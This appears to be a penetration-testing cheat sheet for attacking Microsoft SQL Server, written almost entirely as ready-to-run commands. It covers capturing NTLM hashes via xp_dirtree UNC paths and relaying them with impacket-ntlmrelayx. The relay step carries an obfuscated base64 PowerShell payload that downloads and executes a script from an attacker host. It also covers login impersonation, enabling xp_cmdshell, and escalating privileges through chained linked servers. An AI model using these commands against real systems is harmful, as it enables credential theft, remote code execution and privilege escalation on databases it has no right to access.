 **CONNECTION AND AUTHENTICATION TO THE SERVER:**

Generally the easiest ones to use are impacket-mssqlclient(to connect from linux) and the sqlcmd utility(to connect from windows). When using impacket-mssqlclient with active directory domain authentication don't forget the "-windows-auth" flag!
IMPORTANT: Mainly all commands specified in this document are meant to be thrown through an impacket-mssqlclient or sqlcmd shell.

**UNC PATH Injection and Hash Relaying:**

Throw this command and verify that the authentication with you SMB server was successful:
```
xp_dirtree \\192.168.1.1\test\
```
You can easily create your SMB server with impacket:
```
~# impacket-smbserver test $(pwd) -smb2support
```
To relay the Net-NTLMv2 hash that you obtained with the xp_dirtree command you can use impacket-ntmlrelayx:
```
~# impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
ADEAMQA4AC4AOQA6ADgAMQAvAHIAdQBuAC4AcABzADEAJwApACAAfAAgAEkARQBYAA=='
```

**PRIVILEGE ESCALATION:**

To view the users you can impersonate:
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
To impersonate(assuming you can impersonate the sa user):
```
EXECUTE AS LOGIN = sa
```

**CODE EXECUTION(through xp_cmdshell):**

Use this commands at this order:

1st ```"EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;```

2nd ```EXEC xp_cmdshell whoami```

**CODE EXECUTION ON A LINKED MSSQL SERVER:**

To list linked SQL servers(2 ways):
```
exec sp_linkedservers;

SELECT * FROM sys.servers;
```
For this example, assume that dc01 is the linked server. 

1st ```EXEC (sp_configure 'show advanced options', 1; RECONFIGURE;) AT dc01```

2nd ```EXEC (sp_configure 'xp_cmdshell', 1; RECONFIGURE;) AT dc01```

3rd ```EXEC (xp_cmdshell 'whoami';) AT dc01```

**PRIVILEGE ESCALATION THROUGHA LINKED MSSQLSERVER:**

Supose that we have low privileges on our current MSSQL server, however there is a linked MSSQL server where we do have high privileges. So how do we do to gain high privileges on our first MSSQL server?
(For demonstration purposes we have low privileges on dc01 but high privileges on appsrv01)

Here are the commands we must throw through dc01:

1st ```EXEC ('EXEC (sp_configure "show advanced options", 1; reconfigure;  ) AT appsrv01') AT dc01```

2nd ```EXEC ('EXEC (sp_configure "xp_cmdshell", 1; reconfigure;) AT appsrv01') AT dc01```

3rd ```EXEC ('EXEC (xp_cmdshell "whoami";) AT appsrv01') AT dc01```



